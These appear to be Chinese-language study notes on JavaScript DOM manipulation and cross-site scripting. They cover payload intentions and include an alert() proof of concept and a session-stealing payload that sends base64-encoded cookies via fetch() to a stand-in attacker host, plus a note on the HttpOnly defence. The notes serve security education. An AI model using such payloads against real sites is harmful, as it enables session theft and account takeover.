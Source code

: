 ### javascript 操作 DOM
```xml=
<script>
  function change(){
    document.getElementById("abc").innerHTML="<h1>Be changed</h1>"
  }
</script>
<button onclick="change()" id="abc">test</button>
```
- 當 button 被點擊時，會去執行 `change()` 函式
- `change()` 函式中，會找到 `abc` 這個 id ，並將 `<h1>Be changed</h1>` 加進去

## Cross-Site Scripting (XSS)

XSS (Cross Site Script) 是一種把 JavaScript 注入到網站，意圖讓其他使用者執行的注入攻擊 (Injection Attack)，可以把使用者的 token 偷走假造使用者的身份登入、竄改頁面內容，或是把使用者導到釣魚網站。
- XSS Payloads 是什麼
- XSS 類型
- 如何建立 XSS payloads
- 如何修改 payloads 以避開過濾器 (filter)

### XSS Payload

XSS 的 Payload 是指希望在目標電腦上執行的 JavaScript code
從兩個方面思考 Payload 的使用
- 意圖 (Intension) : 你想用 XSS 做到什麼？
- 修改 (Modification) : 你要如何修改 code，以確保你的意圖在不同場景下可以執行實現

### Payload Intension

- Proof of Concept
- Session Stealing
- Key Logger
- Business Logic

### Intension : Proof of Concept

- 證明此網站存在 XSS 漏洞
- Payload Example : 
    - 彈出 alert box `<script>alert('XSS');</script>`

### Intension : Session Stealing

- 將受害者的 cookie 傳輸到攻擊者控制的伺服器
- Payload Example : 
    - 獲取受害者 cookie 並以 base64 編碼以傳輸至攻擊者的伺服器
        ```javascript
        <script>
        fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));
        </script>
        ```
- 防範：開發者可利用 HttpOnly 參數防止 JavaScript 存取 cookie

